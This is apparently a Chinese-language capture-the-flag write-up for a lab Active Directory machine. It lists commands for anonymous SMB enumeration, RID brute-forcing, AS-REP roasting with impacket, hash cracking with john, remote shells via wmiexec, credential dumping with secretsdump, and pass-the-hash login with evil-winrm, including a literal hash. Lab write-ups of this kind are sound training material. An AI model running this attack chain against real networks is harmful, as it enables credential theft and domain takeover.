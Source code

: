 # Write Up

- 先Nmap

![](https://hackmd.io/_uploads/Sk9Y4m1j3.png)

- 有開139、445 port，看來目標是個AD

- 首先Rec階段要先了解分享多少目錄、以及有可能的透漏帳號
    - `smbclient -L //10.10.10.108 -N`

![](https://hackmd.io/_uploads/S1rVFm1jn.png)

- 發現有VulnNet-Business-Anonymous、VulnNet-Enterprise-Anonymous兩個資料夾有分享，

- 接續顯示資料夾權限
    - `smbmap -u anonymous -H IP`
    - `crackmapexec smb 10.10.10.108 -u anonymous -p "" --shares`

![](https://hackmd.io/_uploads/S1Tkc7Joh.png)

![](https://hackmd.io/_uploads/Sys59Xkoh.png)

- 接下來做了幾個嘗試
    - 1.枚舉username
        - `crackmapexec smb 10.10.10.108 -u 'guest' -p '' --rid-brute`
        - `python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.39.158`
    
    ![](https://hackmd.io/_uploads/Sy2qNN1sh.png)

    - 2.用crackmapexec的spider_plus模組嘗試閱覽共享資料夾下的文件
        - `crackmapexec smb 10.10.10.108 -u 'guest' -p "" -M spider_plus
    
    ![](https://hackmd.io/_uploads/HJtLUEysn.png)
    

- 在確認用戶與共享資料夾的文件後，使用smbclient進行下載
    - `smbclient //10.10.1.123/VulnNet-Enterprise-Anonymous -N`
    - `smbclient //10.10.1.123/VulnNet-Business-Anonymous -N`

![](https://hackmd.io/_uploads/B1B6wE1j3.png)

- 打開6個檔案後發現有幾個Users，可以跟枚舉用戶雷同

![](https://hackmd.io/_uploads/r1ZtspVb6.png)

- using ASREPRoast 執行密碼噴灑
    - `impacket-GetNPUsers 'VULNNET-RST/' -usersfile username.txt -no-pass -dc-ip 10.10.38.45`

![](https://hackmd.io/_uploads/rkzsC64Wa.png)

- 從結果看到，有user跟password hash噴出來

- 開始破解hash值
    - `john hash.txt --wordlist=/home/kali/Desktop/rockyou.txt`

![](https://hackmd.io/_uploads/HykevwSWT.png)

- 這樣我們已經確定t-skid帳號與密碼，重新使用smb登入
    - `smbclient  -U t-skid \\\\10.10.39.158\\NETLOGON`

![](https://hackmd.io/_uploads/rJAoFwSbp.png)

- 發現一個ResetPassword.vbs檔案，查了一下應該是VB的腳本，看了一下code後

![](https://hackmd.io/_uploads/ryuT9vr-6.png)

- 好笑ㄌ，發現另一組帳密

- 使用wmiexec執行shell
    - `python3 /usr/share/doc/python3-impacket/examples/wmiexec.py vulnnet-rst.local/a-whitehat@10.10.39.158`

![](https://hackmd.io/_uploads/BkYvyOBba.png)

- 進去後開始找user.txt

![](https://hackmd.io/_uploads/HyRYl_SWp.png)

- 接下來要開始secretdump administrator
    - `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat@10.10.39.158`

![](https://hackmd.io/_uploads/BJ7ymOSWT.png)

- 使用evil-winrm 進行shell
    - `evil-winrm -i 10.10.39.47 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d
`

![](https://hackmd.io/_uploads/S1QfjuHWp.png)

- 之後進入Desktop 找flag

![](https://hackmd.io/_uploads/H10BsuHZT.png)







